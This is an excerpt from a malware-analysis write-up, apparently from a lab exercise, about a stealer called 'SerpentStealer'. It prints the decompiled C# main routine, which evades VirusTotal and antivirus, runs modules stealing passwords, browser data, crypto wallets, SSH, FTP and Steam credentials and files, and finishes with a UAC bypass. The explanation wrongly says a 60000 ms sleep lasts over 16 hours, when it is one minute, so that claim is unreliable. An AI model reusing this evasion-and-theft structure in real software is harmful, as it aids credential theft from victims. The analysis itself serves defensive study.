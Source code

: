 Finally SerpentStealer, we can see is acting as a main function:
```cs
namespace SerpentStealer
{
	// Token: 0x0200000B RID: 11
	internal class Program
	{
		// Token: 0x0600000F RID: 15 RVA: 0x00002DB8 File Offset: 0x00000FB8
		[NullableContext(1)]
		private static void Main(string[] A_0)
		{
			if (AntiVT.IsVirusTotal())
			{
				Thread.Sleep(60000);
				Environment.Exit(0);
			}
			if (AntiAv.IsAvPresent())
			{
				Thread.Sleep(60000);
				Environment.Exit(0);
			}
			Embed embed = new Embed();
			PasswordStealer passwordStealer = new PasswordStealer();
			HistoryStealer historyStealer = new HistoryStealer();
			AutofillStealer autofillStealer = new AutofillStealer();
			Wallets wallets = new Wallets();
			BookmarkStealer bookmarkStealer = new BookmarkStealer();
			SteamClient steamClient = new SteamClient();
			SSHStealer sshstealer = new SSHStealer();
			FTPStealer ftpstealer = new FTPStealer();
			FileStealer fileStealer = new FileStealer();
			autofillStealer.Run();
			historyStealer.Run();
			embed.Run();
			passwordStealer.Run();
			wallets.Run();
			bookmarkStealer.Run();
			steamClient.GetSteam("C:\\Users\\Aperx\\Desktop").Wait();
			sshstealer.Run();
			ftpstealer.Run();
			fileStealer.Run();
			UAC.Bypass("cmd.exe");
			Console.WriteLine("[+] Program finished.");
		}
	}
}
```

If AntiVT or AntiAv trigger, the program sleeps for 1000 minutes (over 16 hours) then exits. Otherwise it runs through each of the stealers and finishes with establishing persistence via the UAC bypass.
## Answers
